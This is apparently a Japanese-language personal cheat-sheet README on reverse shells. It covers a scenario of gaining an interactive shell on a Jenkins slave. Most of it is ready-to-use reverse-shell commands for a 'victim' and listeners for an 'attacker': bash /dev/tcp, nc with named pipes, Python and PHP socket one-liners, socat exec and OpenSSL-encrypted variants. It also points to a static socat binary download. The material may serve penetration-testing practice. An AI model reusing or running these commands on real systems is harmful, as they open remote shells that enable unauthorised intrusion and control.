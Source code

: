 # reverse shell

* [Reverse Shell \(リバースシェル\) 入門 & 実践 \- 好奇心の足跡]( https://kusuwada.hatenablog.com/entry/2019/10/30/044325 )

## use case
* 任意のコマンドを実行できるサーバであるが，インタラクティブな操作ができない場合
  * jenkinsのslave(victim) <-> my machine(attacker)

## how to install
```
# for avoiding 'pip Installing collected packages: UNKNOWN'
pip3 install setuptools --upgrade
pip3 install https://github.com/umaumax/reshepy/archive/master.tar.gz
```

```
# mac
brew install socat
# ubuntu
sudo apt-get install -y socat
```

----

<!-- ## darwin -->
<!-- * [macos \- Create reverse shell using High Sierra? \- Ask Different]( https://apple.stackexchange.com/questions/324824/create-reverse-shell-using-high-sierra ) -->
<!-- ### attacker machine -->
<!-- ### victim machine -->

## TL;DR
* attacker machine
  * 基本的に自由な環境
    * `openssl`と`socat`がほしい
* victim machine
  * `openssl`さえあればsecureな通信が可能
  * `socat`があるに越したことはないが，`python -c 'import pty; pty.spawn("/bin/sh")'`での代用や直接バイナリをダウンロードする方法がある
    * [static\-binaries/socat at master · andrew\-d/static\-binaries]( https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat )

### DONE
* 通信のみはsecureで制御信号も受け付ける

### TODO
* attackerがclient証明書を利用するケース
* victimがserver証明書を利用するケース(only victim reshepy ok)
* ファイルを共有せずにone linerで上記の項目を実現し，完全にsecureとしたい

## ubuntu
### attacker machine
```
nc -nvlp 8080
```

### victim machine
```
bash -i >& /dev/tcp/localhost/8080 0>&1
```

## common (mac, ubuntu)
### attacker machine
```
nc -nvl 8080
```

```
# socat tcp-listen:8080,reuseaddr,fork stdout
# below command can handle signal and tab
socat $(tty),raw,echo=0 tcp-listen:8080,reuseaddr
```

### victim machine
```
mkfifo myfifo
nc 127.0.0.1 8080 < myfifo | /bin/bash -i > myfifo 2>&1
rm -f myfifo
```

```
python -c 'import sys,socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],int(sys.argv[2])));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' 127.0.0.1 8080
```

```
php -r '$sock=fsockopen($argv[1],intval($argv[2]));exec("/bin/bash -i <&3 >&3 2>&3");' 127.0.0.1 8080
```

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:localhost:8080
```

## FYI
* [PayloadsAllTheThings/Reverse Shell Cheatsheet\.md at master · swisskyrepo/PayloadsAllTheThings]( https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md?source=post_page-----c7598145282d---------------------- )
* `source`: [ersh\.py: a pure Python encrypted reverse shell \| Borderline]( https://blog.kwiatkowski.fr/?q=en/ersh )

## secure

[OpenSSLでReverse Shellの通信を暗号化する\(\+"Ctrl\+C"の対応\) \| 俺的備忘録 〜なんかいろいろ〜]( https://orebibou.com/2019/07/openssl%E3%81%A7reverse-shell%E3%81%AE%E9%80%9A%E4%BF%A1%E3%82%92%E6%9A%97%E5%8F%B7%E5%8C%96%E3%81%99%E3%82%8B%E3%82%AD%E3%83%BC%E3%83%90%E3%82%A4%E3%83%B3%E3%83%89%E5%AF%BE%E5%BF%9C/ )

* 通信内容はsecureだが，通信相手が正しいとはわからない

### attacker machine
```
# openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 3650 -nodes
# Country Name (2 letter code) []: US
# Common Name (eg, fully qualified host name) []:www.localhost.com
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 3650 -nodes -subj "/C=US/ST=/L=/O=/OU=/CN=www.localhost.com/emailAddress=/"

openssl s_server -quiet -key key.pem -cert cert.pem -port 8080
```


```
reshepy localhost:8080
```

`socat` secure version
```
# verify=0: no client certificate check
socat $(tty),raw,echo=0 openssl-listen:8080,reuseaddr,cert=cert.pem,key=key.pem,verify=0
```

at darwin
`stty: stdin isn't a terminal`

* [OpenSSL: How to create a certificate with an empty subject? \- Stack Overflow]( https://stackoverflow.com/questions/26058406/openssl-how-to-create-a-certificate-with-an-empty-subject )
* [x509 \- OpenSSL: How to create a certificate with an empty subject DN? \- Super User]( https://superuser.com/questions/512673/openssl-how-to-create-a-certificate-with-an-empty-subject-dn )

### victim machine
```
# socat ok
rm -f .fifo; mkfifo .fifo;python -c 'import pty; pty.spawn("/bin/bash")' < .fifo 2>&1 | openssl s_client -quiet -connect localhost:8080 > .fifo;rm -f .fifo
```
pythonのspawn a TTY shell from an interpreterを利用することでsocat(fully tty reverse shell)なしでもOK

`socat` secure version
```
socat openssl-connect:localhost:8080,verify=0 exec:'bash -li',pty,stderr,setsid,sigint,sane
```
より安全に通信したい場合には`verify=1`とする?

* client側が適切なサーバかどうかを判定する処理
  * (ctrl-cやtab ok)
```
reshepy -c cert.pem --host=www.localhost.com localhost:8080
```
* 上記のコマンドのcert.pemに該当する部分をbase64でencodeしてテキストベースで貼り付ければ余計なファイルは不要な状態となる
  * また，基本的に，victimが変なサーバに接続することを防止できれば，attackerが変なクライアントを受け入れてもそれほど問題はない
    * (attacker側はコマンドの送信と表示のみであることと，ユースケースとしてネットワーク的に外からのアクセスは受け付けない場所にあると仮定されるため)

----

## port forwarding
下記のコマンドを`attacker`のlocalで動作させれば通信内容を見ることができる
`localhost:8081`->`127.0.0.1:8080`
```
mkfifo fifo
while true ; do nc -l 8081 < fifo | tee /dev/stderr | nc 127.0.0.1 8080 | tee /dev/stderr > fifo; done
rm -f fifo
```

----

## NOTE
* `attacker`と`victim`のコマンドの組み合わせは基本的に自由
* macでは`/dev/tcp/xxx`や`/dev/udp/xxx`などは利用できない
* attackerで`nc`を利用して待ち受けている場合は`ctrl-c`で`nc`が終了してしまう
  * `socat`を利用すればよいが，macには存在しない
* 通常は非暗号化状態で通信
* 接続直後に画面が乱れた場合には`stty sane`

